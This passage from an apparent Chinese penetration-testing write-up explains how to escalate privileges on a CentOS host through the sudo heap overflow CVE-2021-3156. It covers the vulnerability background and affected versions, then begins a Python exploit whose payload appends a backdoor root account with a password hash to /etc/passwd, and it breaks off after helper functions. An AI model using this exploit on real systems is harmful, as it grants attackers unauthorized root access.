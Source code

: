 ![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-39e86c3cf2fd47586d52380b6a6d5c7431f87f01.png)  
查看系统版本  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-50186459b43d1b9baf2c44f4990e510e112d789c.png)  
可以看到是centos的系统，可以尝试使用sudo提权。

0×02提权
------

### sudo本地提权漏洞（CVE-2021-3156）

**漏洞详情：**

Sudo是一个功能强大的工具，其允许普通用户执行root权限命令，大多数基于Unix和Linux的操作系统都包含sudo。

2021年01月26日，sudo被披露存在一个基于堆的缓冲区溢出漏洞（CVE-2021-3156，该漏洞被命名为“Baron Samedit”），可导致本地权限提升。

当在类Unix的操作系统上执行命令时，非root用户可以使用sudo命令来以root用户身份执行命令。由于sudo错误地在参数中转义了反斜杠导致堆缓冲区溢出，从而允许任何本地用户（无论是否在sudoers文件中）获得root权限，无需进行身份验证，且攻击者不需要知道用户密码。

安全研究人员于1月26日公开披露了此漏洞，并表示该漏洞已经隐藏了近十年。

**影响范围**

Sudo 1.8.2 - 1.8.31p2

Sudo 1.9.0 - 1.9.5p1

查看一下sudo的版本，可以看到这个版本是存在漏洞的。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-ed6bd10b6838b115d231545721666ae22ebee28b.png)  
纠正一点，网上有的说“使用sudoedit -s /命令，如果出现以“ sudoedit：”开头的错误响应，则系统受到此漏洞影响；如果出现以“ usage：”开头的错误响应，则表示该漏洞已被补丁修复”这个说法是不准确的。具体的大家可以自己尝试，不要因为没有显示“sudoedit”就觉得不存在漏洞。  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-08555a64f515aa8ff852d6d6800be32550fe9173.png)  
使用一个python脚本

```php
#!/usr/bin/python
import os
import sys
import resource
from struct import pack
from ctypes import cdll, c_char_p, POINTER

SUDO_PATH = b"/usr/bin/sudo"

PASSWD_PATH = '/etc/passwd'
APPEND_CONTENT = b"aa:$5$AZaSmJBP$lsgF8hex//kd.G4XxUJGaS618ZtYoQ796UpkM/8Ucm3:0:0:gg:/root:/bin/bash\n";

#STACK_ADDR_PAGE = 0x7fffffff1000  # for ASLR disabled
STACK_ADDR_PAGE = 0x7fffe5d35000

libc = cdll.LoadLibrary("libc.so.6")
libc.execve.argtypes = c_char_p,POINTER(c_char_p),POINTER(c_char_p)

def execve(filename, cargv, cenvp):
    libc.execve(filename, cargv, cenvp)

def spawn_raw(filename, cargv, cenvp):
    pid = os.fork()
    if pid:
        # parent
        _, exit_code = os.waitpid(pid, 0)
        return exit_code
    else:
        # child
        execve(filename, cargv, cenvp)
```